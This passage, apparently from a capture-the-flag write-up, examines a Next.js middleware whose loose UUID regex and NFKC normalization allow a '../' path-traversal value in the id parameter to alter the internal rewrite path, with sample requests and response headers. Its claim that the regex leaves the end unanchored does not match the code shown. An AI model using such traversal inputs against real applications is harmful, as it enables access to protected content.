 Driven by curiosity, I started combing through the code repeatedly, searching for anything suspicious. After a while, I finally found something.

```js
export function middleware(request) {
  const path = request.nextUrl.pathname;
  if (path.startsWith("/view_protected_note")) {
    const query = request.nextUrl.searchParams;
    const note_id = query.get("id");
    const uuid_regex = /^[^\-]{8}-[^\-]{4}-[^\-]{4}-[^\-]{4}-[^\-]{12}$/;
    const isMatch = uuid_regex.test(note_id);
    if (note_id && isMatch) {
      const current_url = request.nextUrl.clone();
      current_url.pathname = "/note/" + note_id.normalize("NFKC");
      return NextResponse.rewrite(current_url);
    } else {
      return new NextResponse("Uh oh, Missing or Invalid Note ID :c", {
        status: 403,
        headers: { "Content-Type": "text/plain" },
      });
    }
  }
```

The UUID regex looked overly flexible. At line number ```3```, it only validated the start of the string but didn’t enforce any restrictions on the end. Additionally, the use of ```note_id.normalize("NFKC")``` caught my attention—it seemed unusual.

From the moment I first saw this piece of code, I was suspicious. If the author had intended for a straightforward implementation, they could have simply performed a 302 redirect to the /note/ID endpoint. Something felt off.

I stared at the code for a while and started experimenting with different inputs. Eventually, when I inserted a path traversal sequence ```/../``` into the UUID segment of the ```id``` query parameter, I noticed that the value of the ```X-Middleware-Rewrite``` header changed.

#### From this:

```
Request
GET /view_protected_note?id=6ee73608-fc10-45a1-8598-083db0453a08 HTTP/2

Response
X-Middleware-Rewrite: /note/6ee73608-fc10-45a1-8598-083db0453a08?id=6ee73608-fc10-45a1-8598-083db0453a08
```
#### To this
```
Request
GET /view_protected_note?id=../73608-fc10-45a1-8598-083db0453a08 HTTP/2

Response
To this: X-Middleware-Rewrite: /73608-fc10-45a1-8598-083db0453a08?id=..%2F73608-fc10-45a1-8598-083db0453a08
```
